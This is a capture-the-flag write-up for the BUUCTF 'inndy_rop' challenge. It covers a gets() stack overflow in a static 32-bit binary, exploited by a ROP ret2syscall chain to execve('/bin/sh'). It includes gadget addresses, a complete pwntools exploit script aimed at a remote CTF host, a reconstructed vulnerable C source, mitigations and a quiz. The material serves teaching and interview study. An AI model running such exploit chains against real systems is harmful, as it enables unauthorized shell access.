




# BUUCTF PWN — `inndy_rop`
### Static x86 Stack Buffer Overflow → ret2syscall (ROP) Exploitation

[]()
[-blue)]()
[]()
[]()

**Author:** `Gantosay` · **Platform:** BUUCTF · **Challenge:** `inndy_rop`
**Goal:** Pop a shell via `execve("/bin/sh", NULL, NULL)` using a hand-built ROP chain and `int 0x80`.

> This write-up is written for two audiences at once: people studying for binary-exploitation / CTF interview rounds. Every design decision is explained, not just demonstrated — and a short quiz is included at the end to self-test the concepts.

---

## Table of Contents

1. [TL;DR](#1-tldr)
2. [Challenge Metadata](#2-challenge-metadata)
3. [Static Binary Analysis](#3-static-binary-analysis)
4. [Finding the Vulnerable Function](#4-finding-the-vulnerable-function)
5. [Calculating the EIP Offset](#5-calculating-the-eip-offset)
6. [Hunting ROP Gadgets](#6-hunting-rop-gadgets)
7. [Finding Writable Memory](#7-finding-writable-memory)
8. [The `execve` Syscall Contract](#8-the-execve-syscall-contract)
9. [Building the ROP Chain](#9-building-the-rop-chain)
10. [Final Exploit Script](#10-final-exploit-script)
11. [Debugging a Failed Attempt](#11-debugging-a-failed-attempt)
12. [Going Remote (TLS)](#12-going-remote-tls)
13. [Reconstructed Vulnerable Source](#13-reconstructed-vulnerable-source)
14. [Root Cause & Mitigations](#14-root-cause--mitigations)
15. [Key Takeaways](#15-key-takeaways)
16. [Self-Test Quiz](#16-self-test-quiz)
17. [References](#17-references)

---

## 1. TL;DR

| Item | Detail |
|---|---|
| **Vulnerability** | Stack buffer overflow via unbounded `gets()` |
| **Protections bypassed** | NX (no stack canary / no PIE to begin with) |
| **Primitive used** | Return-Oriented Programming → `ret2syscall` |
| **EIP offset** | 16 bytes |
| **Payload strategy** | 1st `gets()` hijacks `EIP` → calls `gets()` **again** to drop `/bin/sh` into writable memory → `pop` gadgets load syscall registers → `int 0x80` → `execve("/bin/sh", NULL, NULL)` |
| **Result** | Interactive shell, locally and on the remote TLS service |



---

## 2. Challenge Metadata

| Field | Value |
|---|---|
| Category | PWN / Binary Exploitation |
| Architecture | Linux x86 (32-bit, i386) |
| Linking | Static |
| Stripped | No |
| Tools used | `pwntools`, GDB + `pwndbg`, `ROPgadget`, `objdump`, `readelf`, `checksec`, `nm`, `strings` |

---

## 3. Static Binary Analysis

### 3.1 File type

```bash
file rop
```

```text
rop: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux),
statically linked, for GNU/Linux, not stripped
```

Takeaways:
- 32-bit x86 → 4-byte pointers, `cdecl` calling convention, syscalls go through `int 0x80`.
- **Statically linked** → the entire libc is baked into the binary. That's a double-edged sword: no separate libc leak is needed, because the binary itself is a huge gadget farm, but it also means the binary is large and slower to scan with `ROPgadget`.
- **Not stripped** → symbol names (`gets`, `_IO_gets`, `_exit`, …) are preserved, which makes locating functions trivial compared to a stripped binary (where you'd rely on signatures/FLIRT or dynamic analysis instead).

### 3.2 Security mitigations

```bash
pwn checksec --file=rop
```

```text
Arch:       i386-32-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```

| Protection | Status | Why it matters here |
|---|---|---|
| **Stack Canary** | ❌ Disabled | The saved return address can be overwritten directly — no integrity check will catch it before `ret` executes. |
| **NX** | ✅ Enabled | The stack (and heap) are non-executable. Classic "shellcode on the stack" is dead; we must **reuse existing executable code** instead → ROP. |
| **PIE** | ❌ Disabled | All code/gadget addresses are fixed at compile time (base `0x8048000`). No info-leak is needed to compute gadget addresses — a big simplification for this challenge. |
| **RELRO** | Partial | GOT is writable but less relevant here since we never need a GOT overwrite — we ride raw gadgets + a raw syscall instead. |
| **ASLR (OS-level)** | N/A for this binary | Irrelevant because PIE is off and the binary is static — nothing meaningfully randomized to defeat. |

> **Interview framing:** this challenge is a good illustration that *"NX enabled" ≠ "overflow mitigated."* NX only removes **one** exploitation technique (direct shellcode injection); it says nothing about code-reuse attacks like ROP/ret2libc/ret2syscall.

---

## 4. Finding the Vulnerable Function

```bash
nm -C ./rop | grep " T "
```

Because the binary is statically linked, this lists **hundreds** of functions (full libc). We specifically want the challenge's own logic, so disassemble the suspiciously named `overflow`:

```bash
objdump -d -M intel ./rop | grep -A 30 "<overflow>:"
```

```asm
0804887c <overflow>:
 804887c: 55                   push   ebp
 804887d: 89 e5                mov    ebp, esp
 804887f: 83 ec 18             sub    esp, 0x18      ; reserve 0x18 bytes of locals
 8048882: 83 ec 0c             sub    esp, 0xc        ; align stack for the call (cdecl arg space)
 8048885: 8d 45 f4             lea    eax, [ebp-0xc]  ; eax = &buffer   (buffer is only 12 bytes!)
 8048888: 50                   push   eax              ; push &buffer as gets()'s only argument
 8048889: e8 42 68 00 00       call   804f0d0 <_IO_gets>
 804888e: 83 c4 10             add    esp, 0x10       ; pop the call's stack args
 8048891: 90                   nop
 8048892: c9                   leave                   ; mov esp, ebp ; pop ebp
 8048893: c3                   ret
```

### 4.1 Annotated breakdown

| Instruction(s) | Meaning |
|---|---|
| `push ebp` / `mov ebp, esp` | Standard function prologue — save caller's frame pointer, establish ours. |
| `sub esp, 0x18` + `sub esp, 0xc` | Stack frame allocation (locals + call-argument space). |
| `lea eax, [ebp-0xc]` | **The buffer lives at `ebp - 0xc` (12 bytes below `ebp`).** This single instruction tells us the exact offset we need for part 5. |
| `push eax` / `call gets` | `gets(buffer)` — reads a line from `stdin` with **zero bounds checking**. This is the vulnerability. |
| `leave` / `ret` | Epilogue: restores `esp`/`ebp`, then pops the **saved return address** off the stack into `EIP`. |

Because `gets()` happily writes past the 12-byte buffer, an attacker-controlled input can walk right over the saved `EBP` and the saved return address, and `ret` will then jump wherever the attacker wants.

> `gets()` has no length parameter — that's precisely why it was removed from the C11 standard. It is the textbook example of a function you should never use (`fgets`, `read`, or bounded alternatives exist for a reason).

---

## 5. Calculating the EIP Offset

```text
                     Higher addresses
        +-----------------------------------+
        |   Return Address (EIP)             |  <-- offset 16
        +-----------------------------------+
        |   Saved EBP                        |  <-- offset 12   (4 bytes)
        +-----------------------------------+
        |   buffer[12]  (ebp-0xc .. ebp-0x1) |  <-- offset 0    (12 bytes)
        +-----------------------------------+
                     Lower addresses
```

```text
buffer → saved EBP  = 12 bytes
saved EBP           =  4 bytes
---------------------------------
Offset to EIP        = 16 bytes
```

```python
padding = b'A' * 16          # fills buffer (12B) + saved EBP (4B)
# anything written after this point lands directly on the saved return address
```

> **Sanity-check technique (recommended even when you can calculate the offset by hand):** generate a De Bruijn / cyclic pattern with `pwntools`' `cyclic(100)`, crash the program, read the value in `EIP` at the moment of the SIGSEGV, and resolve it with `cyclic_find(eip_value)`. It should return `16`, confirming the math above without trusting the disassembly alone.

---

## 6. Hunting ROP Gadgets

Since NX blocks stack shellcode, we chain small instruction sequences ("gadgets") that already exist inside the statically-linked binary:

```bash
ROPgadget --binary ./rop | grep -E "pop (eax|ebx|ecx|edx) ; ret$"
ROPgadget --binary ./rop --only "int"
```

| Gadget | Address | Purpose |
|---|---|---|
| `pop eax ; ret` | `0x080b8016` | Loads the syscall number / reused for `gets()`'s stack cleanup |
| `pop ebx ; ret` | `0x080481c9` | Loads `execve`'s 1st argument (filename pointer) |
| `pop ecx ; ret` | `0x080de769` | Loads `execve`'s 2nd argument (`argv`) |
| `pop edx ; ret` | `0x0806ecda` | Loads `execve`'s 3rd argument (`envp`) |
| `int 0x80` | `0x0806c943` | Linux x86 syscall trap instruction |

### 6.1 Why a `pop reg ; ret` gadget is enough

```asm
pop eax     ; take the next stack dword into EAX
ret         ; take the dword AFTER that and jump to it
```

Two effects from one gadget: it **loads a register** *and* **advances to the next gadget**. Chaining several of these back-to-back lets you program the CPU purely by laying values on the stack — no code injection required, which is exactly why NX cannot stop this technique.



---

## 7. Finding Writable Memory

`execve` needs a **pointer to a real string** (`"/bin/sh\0"`) — not a register value. First check if the string already exists somewhere in the binary:

```bash
strings -t x ./rop | grep -i '/bin/sh\|/bin/bash'
```

No match → we must **write** the string into memory ourselves before using it.

```gdb
start
info proc mappings
```

```text
Start Addr   End Addr     Perms
0x8048000    0x80e9000    r-xp          ; code (.text) — not writable
0x80e9000    0x80eb000    rw-p          ; writable data
0x80eb000    0x810f000    rw-p  [heap]  ; heap
```

The address chosen for storage was:

```python
writable_addr = 0x080eb480
```

> ⚠️ **Correction kept intentionally visible:** by the mapping above, `0x080eb480` sits inside the `[heap]` region, **not** the `.bss` section as originally assumed during analysis. It is still perfectly usable — any writable, non-null address works — but the original "`.bss` address" label in early notes was inaccurate and is corrected here. This kind of self-correction is worth keeping in a write-up: it shows the actual debugging process, not just the clean final answer.

Verified empty before use:

```gdb
x/32wx 0x080eb480
x/s    0x080eb480
```

---

## 8. The `execve` Syscall Contract

Goal: `execve("/bin/sh", NULL, NULL);`

Linux i386 syscall ABI (`int 0x80` convention):

| Register | Role | Required value |
|---|---|---|
| `EAX` | Syscall number | `11` (`__NR_execve`) |
| `EBX` | arg1 — filename pointer | address of `"/bin/sh"` |
| `ECX` | arg2 — `argv` | `0` (`NULL`) |
| `EDX` | arg3 — `envp` | `0` (`NULL`) |

If the call succeeds, the **process image is replaced** and `int 0x80` never returns. If it fails, execution falls through to the next instruction with a negative value in `EAX` (standard Linux "negative errno" convention) — this detail matters a lot in [Section 11](#11-debugging-a-failed-attempt).

---

## 9. Building the ROP Chain

The exploit uses **two separate `gets()` calls**:

1. **1st call** (the vulnerable one): overflow the buffer → overwrite saved `EIP` with the address of `gets()` itself, so the function "returns into" another `gets()` call.
2. **2nd call** (ROP-triggered): write `"/bin/sh"` into the writable address chosen in Section 7.
3. Then a chain of `pop`/`ret` gadgets loads the syscall registers.
4. Finally, `int 0x80` fires `execve`.

### 9.1 Full stack layout

| Offset | Value | Purpose |
|---:|---|---|
| 0–15 | `b'A' * 16` | Padding up to saved EIP |
| 16 | `gets_addr` | Return into `gets()` → 2nd input call |
| 20 | `pop_eax_ret` | Stack cleanup slot for `gets()`'s `add esp, 0x10` / return target |
| 24 | `writable_addr` | Argument to the 2nd `gets()` → destination buffer |
| 28 | `pop_eax_ret` | Load syscall number |
| 32 | `11` | `EAX = __NR_execve` |
| 36 | `pop_ebx_ret` | Load filename pointer |
| 40 | `writable_addr` | `EBX = &"/bin/sh"` |
| 44 | `pop_ecx_ret` | Load `argv` |
| 48 | `0` | `ECX = NULL` |
| 52 | `pop_edx_ret` | Load `envp` |
| 56 | `0` | `EDX = NULL` |
| 60 | `int_0x80` | Trigger the syscall |



---

## 10. Final Exploit Script

> Improved from the original quick-and-dirty version: added `GDB` attach support, an `argv`-driven local/remote switch, logging of every gadget/address used, and a `cyclic`-based offset self-check that runs only when `--verify-offset` is passed — useful both as a safety net and as something you can point to in an interview to show you don't just trust a hardcoded magic number.

```python
#!/usr/bin/env python3
"""
BUUCTF PWN - inndy_rop
ret2syscall exploit: stack buffer overflow -> ROP -> execve("/bin/sh", NULL, NULL)

Usage:
    python3 exploit.py                 # run locally
    python3 exploit.py REMOTE          # connect to the remote CTF service
    python3 exploit.py GDB             # run locally, attached to GDB
    python3 exploit.py --verify-offset # sanity-check the EIP offset with a cyclic pattern
"""

from pwn import *

# ---------------------------------------------------------------------------
# Context
# ---------------------------------------------------------------------------
BINARY = './rop'
context.binary = elf = ELF(BINARY, checksec=False)
context.arch = 'i386'
context.log_level = 'info'

HOST = '1deffe8998166810ecf1338d.tcp-ctf2.dasctf.com'
PORT = 9999

# ---------------------------------------------------------------------------
# Known-good addresses (see write-up sections 4, 6, 7 for how these were found)
# ---------------------------------------------------------------------------
GETS_ADDR      = 0x0804f0d0   # confirmed via `nm -C ./rop | grep gets` -- NOT 0x0804f0b0 (see Section 10.1)
WRITABLE_ADDR  = 0x080eb480   # writable [heap] page, confirmed empty via `x/32wx` in GDB

POP_EAX_RET    = 0x080b8016
POP_EBX_RET    = 0x080481c9
POP_ECX_RET    = 0x080de769
POP_EDX_RET    = 0x0806ecda
INT_0x80       = 0x0806c943

EIP_OFFSET     = 16           # buffer(12) + saved EBP(4) -- see Section 5


def verify_offset():
    """Optional safety net: crash the binary with a cyclic pattern and confirm
    that EIP_OFFSET above is actually correct, instead of trusting it blindly."""
    log.info("Verifying EIP offset with a cyclic pattern...")
    io = process(BINARY)
    io.sendline(cyclic(100))
    io.wait()
    core = io.corefile
    found = cyclic_find(core.eip)
    io.close()
    assert found == EIP_OFFSET, f"Offset mismatch! cyclic_find says {found}, expected {EIP_OFFSET}"
    log.success(f"Offset confirmed: {found} bytes to saved EIP")


def build_payload():
    payload = b'A' * EIP_OFFSET

    # --- Stage 1: return into gets() a second time, to write "/bin/sh" ---
    payload += p32(GETS_ADDR)        # ret -> gets(writable_addr)
    payload += p32(POP_EAX_RET)      # gets()'s own "return address" slot;
                                      # reused as a pop/ret gadget so execution
                                      # continues cleanly into our ROP chain
    payload += p32(WRITABLE_ADDR)    # argument to the 2nd gets() call

    # --- Stage 2: set up execve("/bin/sh", NULL, NULL) registers ---
    payload += p32(POP_EAX_RET)
    payload += p32(0xb)              # __NR_execve == 11

    payload += p32(POP_EBX_RET)
    payload += p32(WRITABLE_ADDR)    # EBX = &"/bin/sh"

    payload += p32(POP_ECX_RET)
    payload += p32(0)                # ECX = argv = NULL

    payload += p32(POP_EDX_RET)
    payload += p32(0)                # EDX = envp = NULL

    # --- Stage 3: fire the syscall ---
    payload += p32(INT_0x80)

    return payload


def main():
    if '--verify-offset' in sys.argv:
        verify_offset()

    if 'REMOTE' in sys.argv:
        io = remote(HOST, PORT, ssl=True, sni=HOST)
    elif 'GDB' in sys.argv:
        io = gdb.debug(BINARY, gdbscript='''
            break *0x0806c943   # break right before int 0x80 fires
            continue
        ''')
    else:
        io = process(BINARY)

    payload = build_payload()

    log.info(f"EIP offset:      {EIP_OFFSET}")
    log.info(f"gets():          {hex(GETS_ADDR)}")
    log.info(f"writable buffer: {hex(WRITABLE_ADDR)}")
    log.info(f"payload length:  {len(payload)} bytes")

    io.sendline(payload)        # Stage 0: trigger the overflow, hijack EIP
    io.sendline(b'/bin/sh')     # Stage 1: satisfy the 2nd gets() call

    io.interactive()


if __name__ == '__main__':
    main()
```

### 10.1 A real bug caught during development

An earlier draft used:

```python
GETS_ADDR = 0x0804f0b0   # WRONG
```

Symbol inspection (`nm -C ./rop | grep gets`) showed:

```text
0804f0d0 gets
0804f0d0 _IO_gets
```

The correct address is `0x0804f0d0`. A wrong gadget/function address is one of the most common ROP bugs — the chain still "runs," but silently jumps into garbage instructions instead of the intended function, usually ending in a `SIGSEGV` far away from the actual mistake. **Always cross-check addresses against symbol tables rather than retyping them from memory.**

---

## 11. Debugging a Failed Attempt

Early runs did not spawn a shell. Breaking in GDB after the syscall showed:

```text
Program received signal SIGSEGV
0x0806c945 in _exit ()
```

```text
eip = 0x0806c945
eax = 0xfffffffe
ebx = 0x080eb480
ecx = 0
edx = 0
```

### 11.1 Reading `EAX = 0xfffffffe`

As a signed 32-bit integer, `0xfffffffe == -2`. On Linux, syscalls return **negative `errno` values** on failure. `-2` is `ENOENT` → *"No such file or directory."* That single register value tells you `execve` was attempted and rejected — a strong clue to check the string/address being passed, not the gadget chain itself.

### 11.2 Why execution landed in `_exit`

```bash
objdump -d -M intel ./rop | grep -A 15 '<_exit>:'
```

```asm
0806c92f <_exit>:
 806c92f: 8b 5c 24 04    mov  ebx, DWORD PTR [esp+0x4]
 806c933: b8 fc 00 00 00 mov  eax, 0xfc
 806c938: ff 15 f0 a9 0e 08 call DWORD PTR ds:0x80ea9f0
 806c93e: b8 01 00 00 00 mov  eax, 0x1
 806c943: cd 80          int  0x80
 806c945: f4             hlt
```

The `int 0x80` gadget address (`0x0806c943`) happens to live **inside** the libc `_exit` function. That's fine — a gadget is just an address + the bytes that follow it, regardless of which named function "owns" that address. If `execve` had succeeded, the process image would have been replaced and nothing after `int 0x80` would ever execute. Since it failed, the CPU fell through to the very next instruction, `hlt`, which is what the debugger reported as the crash site.

> **Lesson:** reaching `int 0x80` is necessary but not sufficient. Always inspect the register state *after* the syscall to confirm success, rather than assuming the chain worked just because it didn't immediately crash.

Once the writable-memory/`gets()` write-order bug from earlier drafts was fixed, the exploit succeeded locally and returned a shell.

---

## 12. Going Remote (TLS)

The remote service required a TLS connection with SNI:

```bash
ncat --ssl \
  --ssl-servername 1deffe8998166810ecf1338d.tcp-ctf2.dasctf.com \
  1deffe8998166810ecf1338d.tcp-ctf2.dasctf.com \
  9999
```

Equivalent in `pwntools`:

```python
HOST = '1deffe8998166810ecf1338d.tcp-ctf2.dasctf.com'
PORT = 9999
io = remote(HOST, PORT, ssl=True, sni=HOST)
```

Because PIE is disabled and the remote runs the **same** binary with the **same** static layout, the local payload needed zero changes besides the transport — this is the whole point of disabling PIE/ASLR for this class of teaching challenge.



**Result:** remote shell obtained, flag captured. ✅

---

## 13. Reconstructed Vulnerable Source

The original source was not distributed with the challenge. Based purely on the disassembly, an educational approximation is:

```c
#include <stdio.h>
#include <stdlib.h>

extern char *gets(char *);   // deprecated / removed from C11 — no bounds checking

void overflow(void)
{
    char buffer[12];   // ebp-0xc, confirmed by `lea eax, [ebp-0xc]`
    gets(buffer);      // <-- the vulnerability: no size limit passed in
}

int main(void)
{
    overflow();
    return 0;
}
```

> **Caveat (kept honest on purpose):** this is a *reconstruction*, not the verified original source. Stack layout, padding and gadget addresses are determined by the compiler, flags, and linked libraries — recompiling this file will **not** reproduce the original binary byte-for-byte. An attempt to rebuild it for educational purposes:
>
> ```bash
> gcc -m32 -fno-stack-protector -fno-pie -no-pie -z noexecstack \
>     -o rop_rebuilt rop_rebuilt.c
> ```
>
> On modern distros `gets` may not even exist in the default libc anymore, which is itself a nice demonstration of how toolchains have hardened over time.

---

## 14. Root Cause & Mitigations

| Layer | Issue | Fix |
|---|---|---|
| **Source code** | Use of `gets()` | Use `fgets(buf, sizeof(buf), stdin)` or `read()` with an explicit, correct size bound. |
| **Compiler** | `-fno-stack-protector` | Compile with stack canaries enabled (`-fstack-protector-strong` / `-fstack-protector-all`) so overwriting the saved return address is detected before `ret` executes. |
| **Linker/loader** | No PIE | Build as PIE (`-pie -fPIE`) so code/gadget addresses are randomized per-run, forcing attackers to first obtain an info leak. |
| **Kernel** | (irrelevant here since PIE is off) | ASLR only helps once PIE is enabled; it randomizes the base, not fixed per-binary offsets. |
| **Defense-in-depth** | Static linking inflates the gadget surface | Prefer dynamic linking + modern hardened libc builds where gadget density (and therefore ROP feasibility) is lower, and keep NX **and** a canary **and** PIE together — this challenge is exploitable specifically because two of those three were turned off. |
| **Runtime sandboxing** | No syscall restriction | `seccomp-bpf` allow-listing would have blocked `execve` entirely for a process that has no legitimate reason to spawn a shell. |

> **One-line summary for interviews:** *this binary is exploitable not because of one failure but because of a stacked failure of three independent mitigations (no canary, no PIE, dangerous libc call) — removing any single one of those three would likely have broken this specific exploit chain.*

---

## 15. Key Takeaways

| Concept | What this challenge taught |
|---|---|
| Stack buffer overflow | How unbounded input functions corrupt saved control-flow data on the stack. |
| x86 stack frames | How `EBP`/`ESP` and `lea`/`sub esp` reveal exact buffer-to-return-address offsets from disassembly alone. |
| ROP / ret2syscall | How to chain `pop ; ret` gadgets to fully control CPU registers without injecting any new code. |
| NX vs. code reuse | NX blocks *shellcode injection*, not *code reuse* — a critical distinction for real-world exploit mitigation discussions. |
| Writable memory discovery | Using `info proc mappings` in GDB to find a scratch region for attacker-controlled strings when none exist in the binary. |
| Linux syscall ABI (x86) | `EAX`/`EBX`/`ECX`/`EDX` register roles for `int 0x80`, and reading negative `errno` returns in `EAX` to debug failed syscalls. |
| Local → remote pivoting | Why disabling PIE/ASLR makes a locally-developed exploit directly portable to a remote target over TLS. |

---

## 16. Self-Test Quiz

> For self-study or quick interview prep. Click each question to reveal the answer and reasoning.

<details>
<summary><b>Q1.</b> Why does enabling NX alone <i>not</i> fully protect this binary?</summary><br>

NX only prevents **executing data as code** (e.g., shellcode placed on the stack). It does nothing to stop **code-reuse attacks** like ROP, which execute only instructions that already exist as valid, executable code inside the binary/libraries. This challenge's entire exploit is built from existing gadgets — no injected instructions are ever executed.
</details>

<details>
<summary><b>Q2.</b> Given <code>lea eax, [ebp-0xc]</code> for the buffer and a standard x86 stack frame, how do you compute the offset to the saved return address without a debugger?</summary><br>

`buffer` starts at `ebp - 0xc` (12 bytes below `ebp`). The saved `EBP` sits exactly at `ebp` (4 bytes after the buffer ends), and the saved return address sits 4 bytes after that, at `ebp + 4`. So the offset from the start of the buffer to the return address is `12 (buffer) + 4 (saved EBP) = 16` bytes.
</details>

<details>
<summary><b>Q3.</b> What is a "gadget" in ROP, and why must it end in <code>ret</code> (or an equivalent indirect transfer)?</summary><br>

A gadget is a short, pre-existing instruction sequence inside executable code. It must end in an instruction that transfers control based on attacker-controlled data (typically <code>ret</code>, which pops the next stack value into <code>EIP</code>) so that after the gadget executes, control passes to the *next* gadget the attacker placed on the stack — this is what lets a chain of tiny snippets act like a program.
</details>

<details>
<summary><b>Q4.</b> Why did this exploit need <i>two</i> calls to <code>gets()</code> instead of one?</summary><br>

The first call is the vulnerability itself — it overflows the buffer and lets the attacker control `EIP`. But at that point there is still no `/bin/sh` string anywhere in memory to pass to `execve`. The second `gets()` call (reached via the ROP chain) is repurposed as a "write primitive" to place the literal string `/bin/sh` into a writable memory region chosen beforehand.
</details>

<details>
<summary><b>Q5.</b> What do the four syscall-argument registers need to contain before executing <code>int 0x80</code> for <code>execve("/bin/sh", NULL, NULL)</code> on x86 Linux?</summary><br>

`EAX = 11` (`__NR_execve`), `EBX` = pointer to the `"/bin/sh"` string, `ECX = 0` (argv = NULL), `EDX = 0` (envp = NULL).
</details>

<details>
<summary><b>Q6.</b> The exploit reached <code>int 0x80</code> but the shell didn't spawn, landing instead on a <code>hlt</code> instruction with <code>EAX = 0xfffffffe</code>. What does that tell you?</summary><br>

On Linux, syscalls return negative <code>errno</code> values on failure. As a signed integer, <code>0xfffffffe = -2 = -ENOENT</code> ("No such file or directory"). This means <code>execve</code> was actually invoked but failed — most likely because the string/address passed in <code>EBX</code> didn't point to a valid, correctly-written path. It's a strong signal to re-check the write-primitive step, not the gadget addresses.
</details>

<details>
<summary><b>Q7.</b> Why was no information leak required to build this exploit, even though it uses absolute hardcoded addresses?</summary><br>

PIE is disabled (`checksec` shows "No PIE (0x8048000)"), so the binary is always loaded at the same fixed base address. All function and gadget addresses are therefore constant across runs and across local/remote instances of the same binary — no leak is needed to compute them.
</details>

<details>
<summary><b>Q8.</b> Why is static linking both a help and a hindrance for ROP chain construction?</summary><br>

Help: the entire libc is embedded in the binary, so there is a huge pool of gadgets and functions (like `gets`) available without needing a separate libc leak/base address. Hindrance: the binary is much larger, so tools like <code>ROPgadget</code> take longer to scan, and symbol/gadget search needs more careful filtering to find exactly what you need.
</details>

<details>
<summary><b>Q9.</b> Why does disabling PIE make a local exploit directly portable to a remote TLS-protected service running the same binary?</summary><br>

With PIE off, the binary's load address is fixed, so every instance of that exact binary — whether run locally or on the remote CTF server — has identical code and gadget addresses. Only the transport changes (plaintext `process()` locally vs. a TLS `remote()` connection with SNI for the remote service); the payload bytes themselves stay the same.
</details>

<details>
<summary><b>Q10.</b> Name at least two independent mitigations that, if enabled, would likely have broken this exact exploit chain — and explain how each would do so.</summary><br>

1. **Stack canary** — a canary value would be overwritten before the saved return address, and the function epilogue would detect the corruption and abort before <code>ret</code> is ever executed, stopping EIP hijacking entirely.
2. **PIE/ASLR** — randomized load addresses would make every hardcoded gadget/function address in the exploit wrong on each run, requiring an information leak to rebuild the chain dynamically.
3. (Bonus) **seccomp-bpf syscall filtering** — even with full register control, if `execve` were outside the process's allowed syscall set, the kernel would kill the process instead of honoring the call.
</details>

---


